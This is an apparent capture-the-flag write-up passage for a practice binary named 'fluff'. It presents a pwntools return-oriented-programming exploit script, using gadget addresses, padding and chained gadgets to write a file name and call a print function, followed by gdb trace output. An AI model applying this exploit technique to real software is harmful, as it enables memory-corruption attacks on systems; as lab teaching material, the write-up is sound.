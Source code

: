 ```
Value Address
x 0x00400246
x 0x00400248
x 0x004006c8
x 0x00400725
x 0x00400751
x 0x00400778
x 0x004007bc
 Strings
```

that's all we wanted for the string `flag.txt`, let's craft the payload!  

```python
from pwn import *

pop_rdi = 0x4006a3
stos = 0x400639
xlat = 0x400628

# pop rdx, pop rcx, add rcx,0x3ef2, bextr rbx,rcx,rdx
bextr = 0x40062a
add_rcx = 0x3ef2

print_file = 0x400510
data_sec = 0x601028
padding = b"x" * 40

p = process("./fluff")
gdb.attach(p, """
           break *0x40062a
           break *0x400628
           break print_file
           """)

payload = padding + p64(bextr) + p64(0x4000) + p64(0x004003c4 - add_rcx)
payload += p64(xlat) + p64(pop_rdi) + p64(data_sec) + p64(stos)

p.sendline(payload)
p.interactive()
```

let's can try this and see if it works.  

```
     0x400626 <usefulFunction+15> pop    rbp
     0x400627 <usefulFunction+16> ret
●    0x400628 <questionableGadgets+0> xlat   BYTE PTR ds:[rbx]
 →   0x400629 <questionableGadgets+1> ret
   ↳    0x4006a3 <__libc_csu_init+99> pop    rdi
        0x4006a4 <__libc_csu_init+100> ret
        0x4006a5                  nop
        0x4006a6                  cs     nop WORD PTR [rax+rax*1+0x0]
        0x4006b0 <__libc_csu_fini+0> repz   ret
        0x4006b2                  add    BYTE PTR [rax], al
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "fluff", stopped 0x400629 in questionableGadgets (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400629 → questionableGadgets()
[#1] 0x4006a3 → __libc_csu_init()
[#2] 0x400639 → questionableGadgets()
[#3] 0x4006a3 → __libc_csu_init()
[#4] 0x400510 → pwnme@plt()
```